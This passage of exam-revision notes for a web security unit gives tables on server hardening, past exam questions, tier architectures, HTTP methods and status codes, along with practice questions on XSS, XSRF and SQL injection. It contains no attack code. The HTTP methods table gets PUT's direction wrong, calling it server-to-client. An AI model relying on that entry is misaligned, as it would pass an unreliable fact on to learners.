| **App Server** | IPSec/SSL for channels; restrict client ports; review Enterprise Services/Web Services/Remoting |
| **Multi-App Hosting** | Separate identities/ACLs; IIS 6 app pools; Win2K multiple anonymous users; partial trust levels |
| **Web Services** | WSE/WS-Security; SOAP headers; XML encryption; digital signatures |
| **Enterprise Services** | Least privileged accounts; COM+ roles; call-level auth; IPSec/RPC encryption; DCOM port restriction |
| **Remoting** | Disable on Internet-facing (map .rem/.soap to HttpForbiddenHandler); HttpChannel for auth; TcpChannel + IPSec for trusted only |
| **Session State** | SSL/IPSec for remote store; encrypt connection string; Windows auth for SQL state store; least privileged account; change default port |
| **Config Management** | Limited remote admin; strong auth; ACLs; separation of duties |
| **DoS Protection** | Harden TCP/IP (SYN flood); limit POST size; limit execution time |
| **File I/O** | CAS policy; Medium trust level = no files outside virtual dir |
| **Remote Admin** | RDP with encryption; IPSec restriction; limited admin accounts |

### 4.9 Important Exam Questions

| Marks | Question | Frequency |
|-------|----------|-----------|
| 1-mark | XSS full form | Dec 2021 |
| 5-mark | XSS notes / XSS attacks | Dec 2022 |
| 5-mark | **SQL Injection with example** | Dec 21, Jun 23, Dec 23, Jun 24 ⭐⭐⭐⭐ |
| 5-mark | OWASP Top 10 notes | Jun 2025 |
| 10-mark | **XSS & XSRF attacks + prevention steps** | Jun 2023, Dec 2023 ⭐⭐⭐ |
| 10-mark | Static vs Dynamic detection | Various |
| 10-mark | Preventive measures for web attacks (Architecture/Development/Administration) | Various |
| 5-mark | CSRF / SQLi vs OS Command Injection / Buffer Overflow / Path Traversal | Check Your Progress |

---

## COMPARISON TABLES FOR QUICK REVISION

### Two-Tier vs Three-Tier Architecture

| Aspect | Two-Tier | Three-Tier |
|--------|----------|------------|
| **Components** | Client ↔ Server | Client ↔ App Server ↔ DB Server |
| **Business Logic** | On client (fat client) | On app server (thin client) |
| **Coupling** | Tight | Loose |
| **Scalability** | Poor (client handles load) | Excellent (scale app tier independently) |
| **Security** | DB exposed to clients | DB hidden behind app server |
| **Maintenance** | Hard (update all clients) | Easy (centralized logic) |
| **Reusability** | Low | High |

### HTTP Methods Quick Reference (Textbook)

| Method | Purpose | Idempotent | Body |
|--------|---------|------------|------|
| GET | Request document | Yes | No |
| HEAD | Document info (not doc) | Yes | No |
| POST | Send data client→server | No | Yes |
| PUT | Send doc server→client | Yes | Yes |
| TRACE | Echo request | Yes | No |
| CONNECT | Reserved | - | - |
| OPTIONS | Available options | Yes | No |

### HTTP Status Codes (Textbook)

| Code | Meaning |
|------|---------|
| 200 | OK |
| 201 | Created |
| 204 | No Content |
| 301 | Moved Permanently |
| 302 | Moved Temporarily |
| 304 | Not Modified |
| 400 | Bad Request |
| 401 | Unauthorized |
| 403 | Forbidden |
| 404 | Not Found |
| 405 | Method Not Allowed |
| 406 | Not Acceptable |
| 500 | Internal Server Error |
| 501 | Not Implemented |
| 503 | Service Unavailable |

---

## SUMMARY OF HIGH-YIELD TOPICS FOR UNIT 3

| Priority | Topic | Must-Know For Exam |
|----------|-------|-------------------|
| 🔴 **Critical** | **Extended & Base Services** | Table with 6 base + 10 extended services; detailed explanations; note this is middleware concept not explicit in textbook |
| 🔴 **Critical** | **XSS vs XSRF** | Comparison table; mechanisms; prevention for each; CWE ranks |
| 🔴 **Critical** | **SQL Injection** | Example payload; types; parameterized query prevention; MS SQL xp_cmdshell |
| 🔴 **Critical** | **Three-Tier vs Two-Tier** | Diagram; advantages; security implications |
| 🟠 **High** | Web Server Sub-systems | 7 generic sub-systems; Apache mapping (Core, Translation, Auth, MIME Type, Response, Logging) |
| 🟠 **High** | JSP Constructs | Expression, Scriptlet, Declaration, Directives (page/include), Actions (6 types) |
| 🟠 **High** | ASP.NET / Razor | Code-behind, user controls, data access, Razor syntax |
| 🟠 **High** | CWE/SANS Top 25 | Top 15 by rank; SQLi, XSS, XSRF, Buffer Overflow, OS Command Injection |
| 🟡 **Medium** | Browser Architecture | 8 sub-systems; rendering flow (HTML → DOM → Render Tree → Layout → Paint) |
| 🟡 **Medium** | Client-side Scripts | SCRIPT element spec; intrinsic events (onload, onclick, onblur, etc.); AJAX |
| 🟡 **Medium** | Detection Methods | Static (forensic logs) vs Dynamic (signature/anomaly) |
| 🟢 **Overview** | Protocols | FTP (2 connections), SMTP (MUA→MSA→MTA→MDA), MIME (5 headers), SSL/TLS handshake |

---

## PRACTICE QUESTIONS

### 2-Mark Questions
1. Differentiate between Two-tier and Three-tier web architecture.
2. What is the difference between HTTP GET and POST?
3. Define XSS and XSRF.
4. List the 7 generic sub-systems of a web server.
5. What are JSP implicit objects?
6. What is the purpose of SameSite cookie attribute?
7. What is CGI? What languages does it support?
8. Explain the TLS/SSL handshake in 4 steps.

### 5-Mark Questions
1. Explain the generic architecture of a web server with diagram (7 sub-systems).
2. Describe JSP constructs: Expression, Scriptlet, Declaration, Directives, Actions.
3. Explain the TLS/SSL handshake process (ClientHello → ServerHello+Cert → ClientKeyExchange → Finished).
4. Differentiate between Static and Dynamic detection of web attacks.
5. Write notes on ASP.NET Razor syntax and user controls.
6. Explain the CWE/SANS Top 5 threats with scores.
7. Describe SQL Injection attack variants (auth bypass, data deletion, shell command).

### 10-Mark Questions
1. **Explain the Extended and Base Services of Server Programs in detail.** (Dec 21, Jun 21, Dec 23)
2. **Describe Cross-Site Scripting (XSS) and Cross-Site Request Forgery (XSRF) attacks with steps to avoid such attacks.** (Jun 23, Dec 23)
3. **Explain Three-tier vs Two-tier Client-Server Architecture with diagram and advantages.** (Jun 2024)
4. Describe SQL Injection attack with example. How to prevent it?
5. Explain the Internal Working of a Web Server. How does Apache map to generic architecture?
6. Explain the Microsoft SDL prevention measures: Architecture, Development, Administration.

---

*End of Unit 3 Notes*  
*Next: Unit 4 - Internet Security (Block 4)*